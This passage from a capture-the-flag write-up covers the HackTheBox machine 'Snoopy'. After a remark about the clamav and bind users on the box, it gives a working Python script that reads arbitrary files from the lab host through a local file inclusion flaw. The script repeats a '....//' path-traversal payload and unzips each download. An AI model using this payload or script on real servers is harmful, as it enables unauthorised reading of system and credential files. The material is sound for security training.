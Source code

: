 These were the most interesting users, and there was a `clamav` and `bind` user, which was something I don't usually find. This means that these softwares must be downloaded on the machine. Anyways, the process for LFI is quite long and slow, so to quickly enumerate the machine, I made a quick Python script to do so:

```python
import requests
import zipfile

def read(file):
	try: 
		url = 'http://provisions.snoopy.htb/download'
		params = {'file':f'....//....//....//....//....//....//....//....//....//....//....//..../{file}'}
		r = requests.get(url, params=params)
		if (r.status_code == 200):
			with open('lfime.zip', 'wb') as f:
				f.write(r.content) 

			with zipfile.ZipFile('lfime.zip', 'r') as zip_file:
				zip_file.extractall('.')
	        
			with open(f'press_package{file}', 'r') as f:
				content = f.read()
				print(f"{content}")

		else:
			print("[-] File does not exist.")	

	except zipfile.BadZipFile:
		print("[-] File does not exist.")
	except Exception as e:
		print(f"[-] LFI Error: {e}.")

def main():
	while True:
		file = input("File: ")
		read(file)

if __name__ == '__main__':
	main()
```

<figure><img src="../../.gitbook/assets/image (3720).png" alt=""><figcaption></figcaption></figure>
